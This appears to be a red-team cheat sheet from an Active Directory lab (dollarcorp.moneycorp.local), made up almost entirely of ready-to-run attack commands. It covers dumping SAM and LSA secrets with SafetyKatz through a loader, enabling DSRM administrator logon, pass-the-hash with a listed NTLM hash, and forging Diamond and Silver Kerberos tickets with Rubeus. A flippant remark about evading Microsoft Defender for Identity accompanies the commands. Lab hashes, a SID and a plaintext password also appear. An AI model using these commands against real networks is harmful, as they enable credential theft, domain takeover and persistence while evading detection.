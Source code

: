 
##### DRSM Admin
```powershell
winrs -r:dcorp-dc cmd 

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::evasive-sam exit"

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::lsa /patch exit"
```

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

Loader.exe -path SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

Now run a DCSync attack on the DC itself because MDI dont care lol

```
a102ad5753f4c441e3af31c97fad86fd
```
##### Diamond Ticket
```powershell
Rubeus.exe diamond /krbkey:<aeskey>/user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### Silver Ticket
**OPSEC IN MIND** create a silver ticket with the ntlm of a computer account
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:b8f18421f92b4ef069829b1dfd0e10e9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```